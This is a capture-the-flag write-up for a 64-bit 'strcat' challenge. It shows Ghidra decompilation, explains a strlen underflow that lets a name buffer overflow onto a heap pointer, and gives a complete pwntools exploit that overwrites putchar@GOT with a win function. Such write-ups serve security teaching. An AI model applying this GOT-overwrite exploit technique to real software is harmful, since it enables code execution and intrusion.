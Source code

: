 ```yaml
---
layout: post
date: 2020-04-23
title: Backdoor Weekly writeup | strcat
tags: ['beginner','writeup','backdoor-weekly']
---
```


We are given a 64-bit binary with ASLR (but no PIE). Looking through the functionality of the binary, it asks us for a *name*, a *desc*(which was a malloc-ed chunk of 0x20 size) and then through a menu prompt, let's us concatenate stuff to this *name* buffer (which has a `maxlen` of `0x80` btw) and to the *desc* chunk. There is also a *win* fucntion which simply prints the flag on the screen. So, our objective is simply to call the win function.

One obvious vulnerability was a format string vulnerability in the `main` function where `printf(name)` and `printf(desc)` are used. Now, since these buffers are in the BSS and heap section, so a format string was somewhat tricky(You can try that though).

```c
ulong readline(void *param_1,int param_2)

{
  uint uVar1;
  size_t sVar2;
  
  read(0,param_1,(long)param_2);
  sVar2 = strlen(name);
  uVar1 = (int)sVar2 - 1;
  *(undefined *)((long)param_1 + (long)(int)uVar1) = 0;
  return (ulong)uVar1;
}
```
readline function disassembly using Ghidra

```c

void main(void)

{
  int iVar1;
  size_t sVar2;
  size_t sVar3;
  
  setup();
  puts("My strcat");
  maxlen = 0x80;
  printf("Name: ");
  iVar1 = readline(name,0x80);
  maxlen = maxlen - iVar1;
  desc = (char *)malloc(0x20);
  printf("Desc: ");
  readline(desc,0x20);
  do {
    while( true ) {
      print_menu();
      printf("> ");
      iVar1 = read_int32();
      if (iVar1 != 2) break;
      printf("Desc: ");
      readline(desc,0x20);
    }
    if (iVar1 == 3) {
      printf(name);
      printf(desc);
      putchar(10);
    }
    else {
      if (iVar1 == 1) {
        printf("Name: ");
        iVar1 = maxlen;
        sVar2 = strlen(name);
        sVar3 = strlen(name);
        iVar1 = readline(name + sVar3,(ulong)(uint)(iVar1 - (int)sVar2),sVar3);
        maxlen = maxlen - iVar1;
      }
      else {
        puts("Invalid");
      }
    }
  } while( true );
}

```
main function disassembly using ghidra

 Another (not so obvious) vulnerability was in the `readline` function which calculated the length of the string as `len = strlen(string)` and returned the value `len - 1` . Now in the `main` function, when we concatenate something to the *name* buffer, `maxlen` is updated to
`maxlen = maxlen - readline(name)`.
Oh, and one thing to remember, the *desc* pointer was located just **below** the *name* buffer. So, with an overflow in the buffer we could overwrite *desc* pointer and then edit this modified pointer through the menu. How do we get this overflow?



If we send `\x00` as the name, then `strlen(name)` would return `0x0` and the readline function would actually return `-1`, this would mean `maxlen = maxlen - (-1)` which effectively overflows our name buffer once, repeat this method to increase the `maxlen` buffer to say `0x90`. Now, we can simply overwrite the *desc* poiner to point it to a GOT function (I chose the `putchar@GOT` for this) and then with the help of *edit desc* option, overwrite this GOT entry to point to *win* function.


The entire exploit can then be written as:

```python
#!/usr/bin/python

from pwn import *

'''
[*]strcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

local = False

if '-r' not in sys.argv:
    local = True

p = process('./strcat')
e = ELF('./strcat')


def init(name, desc):
    p.sendafter('Name:', name)
    p.sendafter('Desc:', desc)

def add_to_name(name):
    p.sendlineafter('>', str(1))
    p.sendafter('Name:', name)

def edit_desc(desc):
    p.sendlineafter('>', str(2))
    p.sendafter('Desc:', desc)

def viewall():
    p.sendlineafter('>', str(3))
    data = p.recvuntil('Menu',drop=True)


#Trigger the bug discussed above by sending '\x00' as the name
name_init = '\x00'
desc_init = "AAAAAAA"
init(name_init, desc_init)

# Continuosly increase maxlen to cover the desc pointer by sending null byte
for i in xrange(16):
    add_to_name('\x00')


# Finally overwriting the desc pointer with the GOT entry for putchar
payload = "A"*0x80 + '\x20\x20\x60\x20'
add_to_name(payload)

# Overwrite putchar@GOT with win function
payload = p64(e.symbols['win'])
edit_desc(payload)

# Use the print it all function in menu and you'll get the flag

p.interactive()


```
